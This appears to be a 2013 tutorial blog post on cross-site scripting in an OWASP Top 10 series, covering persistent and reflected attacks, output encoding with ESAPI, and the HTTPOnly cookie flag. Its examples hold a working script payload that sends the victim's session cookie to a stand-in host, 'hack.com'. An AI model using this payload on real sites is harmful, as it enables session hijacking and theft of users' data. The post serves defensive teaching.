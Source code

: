 ```yaml
---
authors:
- Philippe Cery
tags:
- OWASP
- Security
- Web
date: 2013-10-28T08:57:07.000Z
title: "OWASP Top 10 - A3 Cross Site Scripting (XSS)"
image: 
---
```


## Description

Cross-Site Scripting is a specific consequence of an injection attack. The goal is to make a web browser execute arbitrary scripting code (Javascript, ActionScript, ActiveX…) usually to steal personal information.

## Examples

### Persistent XSS attack

The attacker’s bank website proposes a messaging service to communicate with the clerk.
 The attacker posts the following message:
```language-html
Happy New Year!
 <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once connected on the bank’s website with its special account, the bank clerk consults its new messages. When he opens the suspicious message, he will see the “Happy New Year!” greetings. The second line of the message will not be shown but interpreted by his browser which will silently send his session ID to *hack.com*. Then the attacker will be able to hijack the clerk’s session on the bank’s website to have access to sensitive information on other clients…

### Non-persistent XSS attack

The attacker sends to the clerk an email asking him to consult its account with the following direct link to the website:
```language-html
https://www.mybank.com/details?iban=<script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once authenticated with its own account, the clerk tries to display the account page using the provided link but obviously the bank could not find the requested IBAN and displays an error page to the clerk:
```language-html
IBAN not found: <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Of course, the clerk can only see the beginning of the message “`IBAN not found: `“. The javascript snippet is interpreted by the clerk’s browser and silently send the clerk’s session ID to *hack.com*.

## Mitigations

### Protection against injection attack

If your web application is not protected against [injection](http://blog.ippon.fr/2013/10/11/owasp-top-10-a1/ "OWASP Top 10 - A1 Injection") attacks, it is definitely vulnerable to XSS attacks. When possible, validate untrusted input before usage and storage.

### Output encoding

Sometimes, it is difficult to have an exhaustive white-list of allowed characters when the input is a free text. In theses cases, it is important to canonicalize the input data before storage then encode output data so that special characters are not misinterpreted by the browser. If you don’t canonicalize the input data before storage, encoded input data will be re-encoded.
 E.g. < and > must be converted into `<` and `>` in HTML pages or the string between these 2 characters could be interpreted by the browser as an HTML tag. In the examples above, after encoding, `<script>` becomes `<script>` and won’t be interpreted as a script tag by the browser but displayed as text. Thus the suspicious javascript code won’t be executed.
 Of course, untrusted code can be inserted anywhere in the web page. [ESAPI](https://www.owasp.org/index.php/Category:OWASP_Enterprise_Security_API "ESAPI")‘s Encoder can be used to encode characters depending on where you need to insert untrusted code. Below are some examples:

```language-java
Encoder encoder = ESAPI.encoder();
String rawOutput = "<script>alert("hello");</script>";
System.out.println("Encoded for HTML : "+encoder.encodeForHTML(rawOutput));
System.out.println("Encoded for CSS : "+encoder.encodeForCSS(rawOutput));
System.out.println("Encoded for Javascript : "+encoder.encodeForJavaScript(rawOutput));
System.out.println("Encoded for URL : "+encoder.encodeForURL(rawOutput));
```

Console output:

```language-html
<em>Encoded for HTML : <script>alert("hello");</script>
Encoded for CSS : 3c script3e alert28 22 hello22 29 3b 3c 2f script3e
Encoded for Javascript : x3Cscriptx3Ealertx28x22hellox22x29x3Bx3Cx2Fscriptx3E
Encoded for URL : %3Cscript%3Ealert%28%22hello%22%29%3B%3C%2Fscript%3E</em>
```

Other open-source third-parties exist to encode text before output. Have a look on [Apache Commons-Lang3 API](http://commons.apache.org/proper/commons-lang/javadocs/api-3.1/org/apache/commons/lang3/StringEscapeUtils.html "Apache Commons-Lang3"). It is less strict on encoding but it is acceptable for a simple web application.

`System.out.println("Encoded for HTML : "+StringEscapeUtils.escapeHtml4(rawOutput));`

Console output:

`<em>Encoded for HTML : <script>alert("hello");</script></em>`

### HTTPOnly cookie flag

The examples above show teo different ways to steal a session ID. As discussed in the previous article, if an attacker steals the session ID of an user authenticated on a website, he can impersonate the victim on that website.

Although only the web browser needs to know the session ID, anyone (including a script) could read the value. That’s why Microsoft IE6 developers decided to implement the HTTPOnly flag. When this flag is set (and if the browser supports it), the XSS attack above won’t be able to steal the session ID.

If your application is Servlet 3.0 compliant, you can configure it by adding the following in your `web.xml`:
```language-xml
<session-config>
  <cookie-config>
    <http-only>true</http-only>
  </cookie-config>
</session-config>
```

Otherwise, you will need to configure your server. For example, if you use Apache Tomcat 6, you can set the HTTPOnly flag on cookies by adding the attribute `useHttpOnly="true"` in your `context.xml`:
```language-xml
<Context ... <em>useHttpOnly="true"</em>>
</Context>```

To see all articles related to OWASP Top 10, follow the tag [#owasp](http://blog.ippon.fr/tag/owasp/ "OWASP Top 10")
